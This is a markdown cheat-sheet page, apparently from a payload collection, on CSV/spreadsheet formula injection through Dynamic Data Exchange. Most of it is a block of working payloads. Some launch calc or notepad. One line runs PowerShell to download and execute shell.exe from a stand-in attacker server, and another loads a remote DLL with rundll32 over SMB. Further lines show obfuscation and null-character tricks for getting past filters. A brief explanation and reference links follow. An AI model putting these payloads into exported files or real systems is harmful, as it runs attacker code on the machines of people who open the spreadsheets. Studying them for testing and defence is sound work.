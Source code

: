 +++
titl = "CSV Injection"
date = "2023-03-31"
description = "All about CSV injection techniques, methods, payloads, how/why/when they work."
include_toc = 'true'
+++

# CSV Injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
# pop a notepad
=cmd|' /C notepad'!'A1'
# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A
# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)